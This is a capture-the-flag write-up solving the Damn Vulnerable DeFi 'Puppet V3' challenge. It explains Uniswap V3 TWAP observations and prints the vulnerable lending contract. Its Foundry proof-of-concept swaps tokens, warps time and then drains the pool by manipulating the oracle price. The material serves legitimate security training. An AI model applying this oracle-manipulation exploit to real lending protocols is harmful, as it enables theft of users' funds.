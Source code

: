 ```yaml
---
title: CTF - Puppet V3 Solution
description: My solution to Damn Vulnerable DeFi CTF on Uniswapv3 TWAP oracles.
---
```


Understanding **Uniswap V3** prices on a time weight average.

**First, lets discuss the key points to understand how to break this challenge:**

This challenge introduced Uniswap v3 prices calculation and how it now tracks prices at the end of a block. This removes the possibility of in-block price manipulations, (flashloan attacks. And it does this by tracking observations, basically the last price event information.

Reference::[Uniswap v3 book](https://uniswapv3book.com/)

- Observations are slots that stores a recorded prices, timestamp, and activation flag.
- Cardinality, number of activated observations.
- TWAP are used mainly to support calculation of prices in periods where there were no observations.

Note: this challenge was a nice opportunity to contribute to the [Foundry version of the Damn Vulnerable Defi challenges](https://github.com/nicolasgarcia214/damn-vulnerable-defi-foundry) originally created by the Open Zeppelin team. I have proposed my update to add this challenge in Foundry.



## Puppet v3

[Challenge link...](https://www.damnvulnerabledefi.xyz/challenges/puppet-v3/)


**Now Let's take a look at the victim contract**
We have a pool where users can borrow its Token in exchange for providing 3 times WETH, the pool uses uniswapV3 TWA to fetch and calculate the token price with respect to eth based on the last observation.
`````
pragma solidity =0.7.6;

contract PuppetV3Pool {
    uint256 public constant DEPOSIT_FACTOR = 3;
    uint32 public constant TWAP_PERIOD = 10 minutes;

    IERC20Minimal public immutable weth;
    IERC20Minimal public immutable token;
    IUniswapV3Pool public immutable uniswapV3Pool;

    mapping(address => uint256) public deposits;

    event Borrowed(address indexed borrower, uint256 depositAmount, uint256 borrowAmount);

    constructor(IERC20Minimal _weth, IERC20Minimal _token, IUniswapV3Pool _uniswapV3Pool) {
        weth = _weth;
        token = _token;
        uniswapV3Pool = _uniswapV3Pool;
    }

    /**
     * @notice Allows borrowing `borrowAmount` of tokens by first depositing three times their value in WETH.
     *         Sender must have approved enough WETH in advance.
     *         Calculations assume that WETH and the borrowed token have the same number of decimals.
     * @param borrowAmount amount of tokens the user intends to borrow
     */
    function borrow(uint256 borrowAmount) external {
        // Calculate how much WETH the user must deposit
        uint256 depositOfWETHRequired = calculateDepositOfWETHRequired(borrowAmount);

        // Pull the WETH
        weth.transferFrom(msg.sender, address(this), depositOfWETHRequired);

        // internal accounting
        deposits[msg.sender] += depositOfWETHRequired;

        TransferHelper.safeTransfer(address(token), msg.sender, borrowAmount);

        emit Borrowed(msg.sender, depositOfWETHRequired, borrowAmount);
    }

    function calculateDepositOfWETHRequired(uint256 amount) public view returns (uint256) {
        uint256 quote = _getOracleQuote(_toUint128(amount));
        return quote * DEPOSIT_FACTOR;
    }

    function _getOracleQuote(uint128 amount) private view returns (uint256) {
        (int24 arithmeticMeanTick,) = OracleLibrary.consult(address(uniswapV3Pool), TWAP_PERIOD);
        return OracleLibrary.getQuoteAtTick(
            arithmeticMeanTick,
            amount, // baseAmount
            address(token), // baseToken
            address(weth) // quoteToken
        );
    }

    function _toUint128(uint256 amount) private pure returns (uint128 n) {
        require(amount == (n = uint128(amount)));
    }
}
`````
**Validation Constraints**
- Block timestamp must not have changed too much, no more than 115 sec.
- Player has taken all tokens out of the pool


**Attack Brainstorm**

- Borrow any asset for the 3 times its amount of WETH.
- The borrow function internal accounting updates after deposit, check effects.
- I see the hardcoded **TWA time 10** and seems suspicious to me, docs: `Number of seconds in the past to start calculating the time-weighted observation`
- Then the required eth calculation function is using the oracle, if we can someway get the oracle to return a very cheap price, the ETH can drain easily.
    - So we take a look at user inputs for these one and maybe the passing `type(uint256).max` can reset the price to zero. But the oracle will revert on underflow, so not here... :(
- Now, we could swap all of our DVT token for as much WETH token as possible
    - this swap will lower the pool's WETH reserves in comparison to the DVT, but the oracle is protected against same block manipulations, so we need another transaction that will use this last **observation** of the price.
    - Now, I remember that on the book it's mentioned that anyone can change the next cardinality of the observations, and since we know in this case we are the only ones trading in this pool, we might as well set the cardinality to take the next time only 2 observations.
    - `uniswapPool.increaseObservationCardinalityNext(2)` at the beginning of the challenge setUp we see that Tincho set this to 40 after init the pool.
    - If this works, we could bypass the TWA at which the contracts pull it's prices. So we must do a set of transactions within 10 minutes, or in other words we will simulate short-term volatility.
    - Ideally we could `warp` the vm or (increase block timestamp) with foundry to swap and fast forward within the next 100 sec, so the oracle will pick the last observation which left the price of the token at a very discount rate.


### POC Solution

For the complete set up and solution code please refer to my foundry repo [here](https://github.com/danielles0xG/damn-vulnerable-defi-foundry/blob/master/test/Levels/puppet-v3/PuppetV3.t.sol).
````
  function testExploit() public {
       
        // Swap all out dvt for as much weth possible
        dvt.approve(address(uniswapRouterAddress), type(uint256).max);
        ISwapRouter(uniswapRouterAddress).exactInputSingle(
            ISwapRouter.ExactInputSingleParams(
                address(dvt),
                address(weth),
                3000,
                address(attacker),
                block.timestamp,
                ATTACKER_INITIAL_TOKEN_BALANCE, // 110 DVT TOKENS
                0,
                0
            )
        );

        // fast forward 100 seconds
        vm.warp(block.timestamp + 100);
        uint256 quote = lendingPool.calculateDepositOfWETHRequired(LENDING_POOL_INITIAL_TOKEN_BALANCE);
        weth.approve(address(lendingPool), quote);

        // Drain the pool
        lendingPool.borrow(LENDING_POOL_INITIAL_TOKEN_BALANCE);
        validation();
    }
````
Note that if we don't increase the timestamp the observation will remain in the first slot, meaning the 3x ratio price.

````
        uint256 quote1 = lendingPool.calculateDepositOfWETHRequired(LENDING_POOL_INITIAL_TOKEN_BALANCE);
        console.log("quote: ", quote1); //   quote:  3000000000000000000000000

        vm.warp(block.timestamp + 100);

        uint256 quote = lendingPool.calculateDepositOfWETHRequired(LENDING_POOL_INITIAL_TOKEN_BALANCE);
        console.log("quote: ", quote); //    quote: 1135374091135900626
````

**Thanks and I hope you find value in this post.**

